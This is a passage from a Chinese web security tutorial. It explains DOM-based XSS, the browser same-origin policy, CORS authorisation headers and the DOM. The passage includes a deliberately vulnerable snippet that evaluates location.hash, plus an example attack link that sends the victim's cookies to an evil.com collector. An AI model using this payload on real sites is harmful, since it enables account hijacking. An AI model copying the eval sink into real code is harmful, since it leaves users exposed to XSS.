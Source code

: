 正常的 Javascript 语句：

> ```js
> <script>
>     eval(location.hash.substr(1));
> </script>
> ```

eval()：eval() 函数可计算某个字符串，并执行其中的的 JavaScript 代码。

location.hash：获取本页链接中的 "#" 符号及其后面的内容。

substr：截取字符串中第 start+1 位及其以后总计 length 位的字符。

如果攻击者构造出这样的链接：

> ```http
> https://www.abc.com/index.html#new%20Image().src='http://www.evil.com/getcookies.php?cookie='+escape(document.cookie)
> ```

escape：escape() 函数可对字符串进行编码，这样就可以在所有的计算机上读取该字符串。

当被攻击者点击了这样被伪装的链接时，Cookies 信息会被盗取到黑客网站上，利用该 Cookies 就可以登录被攻击者的账号，并执行越权操作。

### 1.2 浏览器的同源策略

计算机的本地与 Web 是不同的层面，浏览器上可以运行 Internet 域，但限制了直接进行本地域的读写。

同源策略：**不同域**的**客户端脚本**在没明确**授权**的情况下，不能**读写**对方的**资源**。

#### 1.2.2 客户端脚本

客户端脚本主要指 JavaScript、ActionScript（Flash 的脚本语言）和它们都遵循的 ECMAScript 脚本标准。

#### 1.2.3 授权

HTML5 新标准中提到的关于 AJAX 跨域访问的情况。默认情况下不允许跨域访问。只有当目标站点明确返回 HTTP 响应头：

> ```xml
> Access-Control-Allow-Origin: http://www.abc.com
> ```

那么 www.abc.com 站点上的客户端脚本就有权通过 AJAX 技术对目标服务器上的数据进行读写操作。

AJAX 也是黑客进行 Web 客户端攻击常用的途径，因为这样可以在后台进行。

#### 1.2.5 资源

DOM（Document Object Model）文档对象模型，浏览器将 HTML/XML 这样的文档抽象成一个树形结构。树上的每个节点都代表文档中的标签、属性、或内容。这样抽象出来方便了 JS 进行读写操作。Web 客户端的攻击几乎都离不开 DOM 操作。

## 二 前端基础

### 2.2 URL

HTTP Basic 认证格式：
